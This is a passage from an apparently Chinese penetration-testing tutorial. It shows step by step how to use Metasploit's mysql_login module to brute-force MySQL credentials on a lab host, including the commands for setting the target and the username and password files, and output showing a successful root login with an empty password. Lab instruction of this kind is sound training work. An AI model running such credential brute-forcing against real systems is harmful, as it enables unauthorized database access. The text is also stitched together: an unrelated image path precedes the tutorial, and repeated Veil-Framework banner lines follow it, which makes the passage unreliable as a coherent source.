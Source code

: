 ```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > 
```

（4）显示模块的有效选项。执行命令如下所示：

![174-02](img/00290.jpg)

以上的信息显示了在 mysql_login 模块下可设置的选项。从输出的结果中可以看到显示了四列信息，分别是选项名称、当前设置、需求及描述。其中 Required 为 yes 的选项是必须配置的，反之可以不用配置。对于选项的作用，Description 都有相应的介绍。

（5）为渗透攻击指定目标系统、用户文件和密码文件的位置。执行命令如下所示：

```
msf auxiliary(mysql_login) > set RHOSTS 192.168.41.142
RHOST => 192.168.41.142
msf auxiliary(mysql_login) > set user_file /root/Desktop/usernames.txt
user_file => /root/Desktop/usernames.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/passwords.txt
pass_file => /root/Desktop/passwords.txt 
```

以上信息设置了目标系统的地址，用户文件和密码文件的路径。

（6）启动渗透攻击。执行命令如下所示：

```
msf auxiliary(mysql_login) > exploit
[deprecated] I18n.enforce_available_locales will default to true in the future. If you really want to skip validation of your locale you can set I18n.enforce_available_locales = false to avoid this message.
[*] 192.168.41.142:3306 MYSQL - Found remote MySQL version 5.0.51a
[*] 192.168.41.142:3306 MYSQL - [01/40] - Trying username:'sa' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [02/40] - Trying username:'root' with password:"
[+] 192.168.41.142:3306 - SUCCESSFUL LOGIN 'root' : "
[*] 192.168.41.142:3306 MYSQL - [03/40] - Trying username:'bob' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [04/40] - Trying username:'ftp' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [05/40] - Trying username:'apache' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [06/40] - Trying username:'named' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [07/40] - Trying username:'sa' with password:'sa'
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [35/40] - Trying username:'named' with password:'password'
```

 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework